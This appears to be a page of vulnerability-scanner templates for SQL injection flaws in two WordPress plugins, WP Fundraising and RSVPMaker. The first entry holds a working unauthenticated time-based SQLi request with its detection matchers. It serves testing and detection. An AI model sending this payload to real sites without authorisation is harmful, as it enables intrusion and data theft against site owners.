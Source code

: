 # WP Fundraising Donation and Crowdfunding Platform \< 1.5.0 - Unauthenticated SQLi

## Description

- The WP Fundraising Donation and Crowdfunding Platform WordPress plugin before 1.5.0 does not sanitise and escape a parameter before using it in a SQL statement via one of it's REST route, leading to an SQL injection exploitable by unauthenticated users.

- severity - critical
- tags - cve,sqli,wordpress,wp-plugin,cve2022,wp,wp-fundraising-donation,unauth,wpscan

## Requests

### Step - 1

```
@timeout: 10s
GET /index.php?rest_route=/xs-donate-form/payment-redirect/3 HTTP/1.1
Host: {{Hostname}}
Content-Type: application/json

{"id": "(SELECT 1 FROM (SELECT(SLEEP(6)))me)", "formid": "1", "type": "online_payment"}

```

### Matchers

**Type - dsl**

- dsl
  1. duration>=6
  2. status_code == 200
  3. contains(content_type, "application/json")
  4. contains(body, "Invalid payment.")
- condition - and

---

# WordPress RSVPMaker \<=9.3.2 - SQL Injection

## Description

- WordPress RSVPMaker plugin through 9.3.2 contains a SQL injection vulnerability due to insufficient escaping and parameterization on user-supplied data passed to multiple SQL queries in ~/rsvpmaker-email.php. An attacker can possibly obtain sensitive information, modify data, and/or execute unauthorized administrative operations in the context of the affected site.

- severity - high
- tags - cve,cve2022,wordpress,wp-plugin,wp,sqli,rsvpmaker
